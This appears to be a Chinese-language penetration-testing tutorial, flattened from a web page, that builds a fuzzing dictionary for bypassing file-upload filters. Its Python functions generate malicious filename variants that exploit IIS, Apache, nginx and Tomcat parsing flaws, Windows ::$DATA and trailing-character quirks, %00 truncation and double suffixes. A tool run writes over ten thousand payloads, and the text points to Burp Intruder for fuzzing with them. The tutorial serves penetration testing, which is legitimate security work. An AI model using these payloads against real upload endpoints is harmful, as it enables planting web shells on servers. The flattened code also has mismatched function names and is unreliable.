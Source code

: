 # 文件Fuzz



**利用点**在动手之前我们来思考下上传漏洞跟那些因素有关：**1.可解析的后缀，也就是该语言有多个可解析的后缀，比如php语言可解析的后缀为php,php2,php3等等2.大小写混合，如果系统过滤不严，可能大小写可以绕过。3.中间件，每款中间件基本都解析漏洞,比如iis就可以把xxx.asp;.jpg当asp来执行。4.系统特性，特别是Windows的后缀加点（.）,加空格，加::$DATA可以绕过目标系统。5.语言漏洞，流行的三种脚本语言基本都存在00截断漏洞。6.双后缀，这个与系统和中间件无关，偶尔会存在于代码逻辑之中。**整理以上思考，我们把生成字典的规则梳理为以下几条：

> 可解析的后缀+大小写混合可解析的后缀+大小写混合+中间件漏洞.htaccess + 大小写混合可解析的后缀+大小写混合+系统特性可解析的后缀+大小写混合+语言漏洞可解析的后缀+大小写混合+双后缀

下面我们根据上面的构想，来分析每一方面的细节，并使用代码来实现。

*   中间件

    > **4.1 iis**
    >
    > iis一共有三个解析漏洞：1.IIS6.0文件解析 xx.asp;.jpg2.IIS6.0目录解析 xx.asp/1.jpg3.IIS 7.0畸形解析 xxx.jpg/x.asp由于2和3和上传的文件名无关，故我们只根据1来生成fuzz字典def iis\_suffix\_creater(suffix):res = \[]for l in suffix:str ='%s;.%s' % (l,allow\_suffix)res.append(str)return resapache相关的解析漏洞有两个：1.%0a(CVE-2017-15715)2.未知后缀 test.php.xxx根据以上构造`apache_suffix_builder`函数生成规则：def apache\_suffix\_creater(suffix):res = \[]for l in suffix:str = '%s.xxx' % lres.append(str)str = '%s%s' % (l,urllib.unquote('%0a')) #CVE-2017-15715res.append(str)return res
    >
    > **4.3 nginx**
    >
    > nginx解析漏洞有三个：
    >
    > > 访问连接加/xxx.php test.jpg/xxx.php畸形解析漏洞 test.jpg%00xxx.phpCVE-2013-4547 test.jpg(非编码空格)\0x.php
    >
    > **4.4 tomcat**
    >
    > tomcat用于上传绕过的有三种,不过限制在windows操作系统下。xxx.jsp/xxx.jsp%20xxx.jsp::$DATA根据以上规则生成字典对应的代码为：win\_tomcat = \['%20','::$DATA','/']def tomcat\_suffix\_creater(suffix):res = \[]for l in suffix:for t in win\_tomcat:str = '%s%s' % (l,t)res.append(str)return res如果确定中间件为apache,可以加入.htaccess。同时如果操作系统还为windows，我们可以大小写混合。if (middleware == 'apache' or middleware == 'all') and (os == 'win' or os == 'all'):htaccess\_suffix = uperTest(".htaccess")elif (middleware == 'apache' or middleware == 'all') and os == 'linux':htaccess\_suffix = \['.htaccess']else:htaccess\_suffix = \[]
    >
    > **4.5 语言，中间件与操作系统的关系**
    >
    > 以上我们根据每个中间件的漏洞，编写了对应的fuzz字典生成函数。在最终生成字典时，我们还要考虑中间件可以运行那些语言，以及它们与平台的关系。

    | 语言       | IIS | Apache | Tomcat | Window | Linux |
    | -------- | --- | ------ | ------ | ------ | ----- |
    | asp/aspx | √   | √      | ×      | √      | √     |
    | php      | √   | √      | √      | √      | √     |
    | jsp      | √   | ×      | √      | √      | √     |

    > 根据上表，我们明白：iis下可以运行asp/aspx,php,jsp脚本，故这3种脚本语言可解析后缀均应该传入iis\_suffix\_builder()进行处理；apache下可以运行asp/aspx,php。故这2两种脚本语言可解析后缀均应该传入apache\_suffix\_builder()进行处理；tomcat下可以运行php，jsp，故这两个脚本语言可解析后缀均应该传入tomcat\_suffix\_builder()进行处理。注意：根据对tomcat上传的绕过分析，发现之后在windows平台下才能成功。故之后在Windows平台下才会调用`tomcat_suffix_builder()`对可解析后缀进行处理。故伪代码可以编写如下：if middleware == 'iis':case\_asp\_php\_jsp\_parse\_suffix = case\_asp\_parse\_suffix + case\_php\_parse\_suffix + case\_jsp\_parse\_suffixmiddleware\_parse\_suffix = iis\_suffix\_creater(case\_asp\_php\_jsp\_parse\_suffix)elif middleware == 'apache':case\_asp\_php\_html\_parse\_suffix = case\_asp\_parse\_suffix + case\_php\_parse\_suffix + case\_html\_parse\_suffixmiddleware\_parse\_suffix = apache\_suffix\_creater(case\_asp\_php\_html\_parse\_suffix)elif middleware == 'tomcat' and os == 'linux':middleware\_parse\_suffix = case\_php\_parse\_suffix + case\_jsp\_parse\_suffixelif middleware == 'tomcat' and (os == 'win' or os == 'all'):case\_php\_jsp\_parse\_suffix = case\_php\_parse\_suffix + case\_jsp\_parse\_suffixmiddleware\_parse\_suffix = tomcat\_suffix\_creater(case\_php\_jsp\_parse\_suffix)else:case\_asp\_php\_parse\_suffix = case\_asp\_parse\_suffix + case\_php\_parse\_suffixiis\_parse\_suffix = iis\_suffix\_creater(case\_asp\_php\_parse\_suffix)case\_asp\_php\_html\_parse\_suffix = case\_asp\_parse\_suffix + case\_php\_parse\_suffix + case\_html\_parse\_suffixapache\_parse\_suffix = apache\_build(case\_asp\_php\_html\_parse\_suffix)case\_php\_jsp\_parse\_suffix = case\_php\_parse\_suffix + case\_jsp\_parse\_suffixtomcat\_parse\_suffix = tomcat\_build(case\_php\_jsp\_parse\_suffix)middleware\_parse\_suffix = iis\_parse\_suffix + apache\_parse\_suffix + tomcat\_parse\_suffix
    >
    > #### 五、系统特性 <a href="#wu-xi-tong-te-xing" id="wu-xi-tong-te-xing"></a>
    >
    > 经过查资料，目前发现在系统层面，有以下特性可以被上传漏洞所利用。Windows下文件名不区分大小写，Linux下文件名区分大写欧西；Windows下ADS流特性，导致上传文件xxx.php::$DATA = xxx.php；Windows下文件名结尾加入`.`,`空格`,`<`,·`>`,`>>>`,`0x81-0xff`等字符，最终生成的文件均被windows忽略。# 生成0x81-0xff的字符listdef str\_81\_to\_ff():res = \[]for i in range(129,256):str = '%x' % istr = '%' + strstr = urllib.unquote(str)res.append(str)return reswindows\_os = \[' ','.','/','::$DATA','<','>','>>>','%20','%00'] + str\_81\_to\_ff()def windows\_suffix\_builder(suffix):res = \[]for s in suffix:for w in windows\_os:str = '%s%s' % (s,w)res.append(str)return res
    >
    > #### 六、语言的漏洞 <a href="#liu-yu-yan-de-lou-dong" id="liu-yu-yan-de-lou-dong"></a>
    >
    > 语言漏洞被利用于上传的有%00截断和0x00截断。它们在asp，php和jsp中都存在着。def str\_00\_truncation(suffix,allow\_suffix):res = \[]for i in suffix:str = '%s%s.%s' % (i,'%00',allow\_suffix)res.append(str)str = '%s%s.%s' % (i,urllib.unquote('%00'),allow\_suffix)res.append(str)return res
    >
    > #### 七、双后缀 <a href="#qi-shuang-hou-zhui" id="qi-shuang-hou-zhui"></a>
    >
    > 有些站点通过对上传文件名进行删除敏感字符（php,asp,jsp等等）的方式进行过滤,例如你上传一个aphp.jpg的文件，那么上传之后就变成了a.jpg。这时就可以利用双后缀的方式上传一个a.pphphp,最终正好生成a.php。其实双后缀与中间件和操作系统无关，而是和代码逻辑有关。针对双后缀，我们可以写个`str_double_suffix_creater(suffix)`函数，传入后缀名suffix即可生成所有的双后缀可能。def str\_double\_suffix\_creater(suffix):res = \[]for i in range(1,len(suffix)):str = list(suffix)str.insert(i,suffix)res.append("".join(str))return res在`list_double_suffix_creater(suffix)`函数基础上，可以编写`list_double_suffix_creater(list_suffix)`来为一个list生成所有双后缀可能。def list\_double\_suffix\_creater(list\_suffix):res = \[]for l in list\_suffix:res += double\_suffix\_creater(l)return duplicate\_removal(res)工具$ python upload-fuzz-dic-builder.py -husage: upload-fuzz-dic-builder \[-h] \[-n] \[-a] \[-l] \[-m] \[--os] \[-d] \[-o]​optional arguments:-h, --help show this help message and exit-n , --upload-filenameUpload file name-a , --allow-suffix Allowable upload suffix-l , --language Uploaded script language-m , --middleware Middleware used in Web System--os Target operating system type-d, --double-suffix Is it possible to generate double suffix?-o , --output Output file脚本可以之定义生成的上传文件名（-n），允许的上传的后缀（-a），后端语言（-l），中间件(-m),操作系统（--os），是否加入双后缀（-d）以及输出的字典文件名（-o）。我们可以根据场景来生成合适的字典，提供的信息越详细，脚本生成的字典越精确。由于知道我们的后端语言为`php`,中间件为`apache`，操作系统为`Windows`。所以可以利用这些信息生成更精确的fuzz字典。$ python upload-fuzz-dic-builder.py -l php -m apache --os win\[+] 收集17条可解析后缀完毕！\[+] 加入145条可解析后缀大小写混合完毕！\[+] 加入152条中间件漏洞完毕！\[+] 加入37条.htaccess完毕！\[+] 加入10336条系统特性完毕！\[+] 去重后共10753条数据写入upload\_fuzz\_dic.txt文件
    >
    > **抓包使用burp的Intruder模块对上传名称进行fuzz <在HTTP协议层面绕过WAF>**
